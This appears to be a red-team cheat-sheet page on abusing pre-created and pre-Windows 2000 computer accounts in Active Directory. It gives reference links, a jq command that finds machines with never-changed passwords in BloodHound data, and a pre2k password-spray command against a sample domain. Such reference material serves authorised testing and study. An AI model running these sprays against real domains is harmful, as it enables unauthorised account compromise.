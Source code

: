 ```yaml
---
description: Pre-created Computer Accounts & Pre-Windows 2000
---
```


# Pre-created Computers Abuse




## ACL Abuse on Pre-Windows 2000 Computers

- [https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/)
- [https://www.optiv.com/insights/source-zero/blog/diving-deeper-pre-created-computer-accounts](https://www.optiv.com/insights/source-zero/blog/diving-deeper-pre-created-computer-accounts)
- [https://github.com/garrettfoster13/pre2k](https://github.com/garrettfoster13/pre2k)
- [https://github.com/eversinc33/Invoke-Pre2kSpray](https://github.com/eversinc33/Invoke-Pre2kSpray)

Search for machines that never updated their passwords:

```
$ cat 19700101000000_computers.json | jq '.data[].Properties | select(.enabled == true and .pwdlastset == 0) | .name' -r > pre2k.txt
```

Initiate a pitchfork spray against them:

```
$ pre2k unauth -d megacorp.local -dc-ip 192.168.1.11 -inputfile pre2k.txt -sleep 10 -jitter 30 -threads 1
```




## ACL Abuse on Pre-created Computers

- [https://dirkjanm.io/abusing-forgotten-permissions-on-precreated-computer-objects-in-active-directory/](https://dirkjanm.io/abusing-forgotten-permissions-on-precreated-computer-objects-in-active-directory/)
